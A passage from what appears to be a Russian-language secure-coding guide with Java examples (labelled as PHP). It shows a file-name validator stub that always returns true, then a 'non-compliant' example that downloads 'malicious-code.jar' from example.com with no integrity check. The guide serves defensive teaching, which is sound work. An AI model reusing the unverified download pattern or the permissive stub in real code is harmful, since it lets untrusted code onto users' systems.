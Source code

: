 ```php
            // Обработка недопустимого имени файла
        }
    }
    
    public static boolean isValidFilename(String filename) {
        // Реализуйте логику проверки, чтобы убедиться, что имя файла безопасно.
        // например, ограничить путь к файлу, запретить определенные символы и т.д.
        return true;
    }
    
    public static void main(String[] args) {
        String userProvidedFilename = "userfile.txt";
        processFile(userProvidedFilename);
    }
}
```


В этом соответствующем коде введен отдельный метод isValidFilename для проверки и обеззараживания имени файла, предоставленного пользователем, перед его обработкой. Метод isValidFilename должен реализовать соответствующую логику проверки, чтобы убедиться, что имя файла соответствует требуемым критериям (например, ограничить путь к файлу, запретить определенные символы и т. д.). Только если имя файла проходит проверку, он переходит к обработке содержимого файла. В противном случае, если имя файла недействительно, оно обрабатывается соответствующим образом. Проверяя и санируя входные данные, код снижает риск включения функциональности из ненадежных систем управления и помогает гарантировать, что обрабатываются только безопасные и ожидаемые имена файлов.




## Загрузка кода без проверки целостности

<span class="d-inline-block p-2 mr-1 v-align-middle bg-red-000"></span>Несоответствующий код:


```php
import java.io.IOException;
import java.net.URL;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.StandardCopyOption;

public class CodeDownloadExample {
    public static void downloadCode(String url, String destination) {
        try {
            URL codeUrl = new URL(url);
            Path destinationPath = Path.of(destination);
            Files.copy(codeUrl.openStream(), destinationPath, StandardCopyOption.REPLACE_EXISTING);
        } catch (IOException e) {
            // Обработка ошибки загрузки
        }
    }
    
    public static void main(String[] args) {
        String codeUrl = "http://example.com/malicious-code.jar";
        String destinationPath = "/path/to/save/malicious-code.jar";
        downloadCode(codeUrl, destinationPath);
    }
}
```
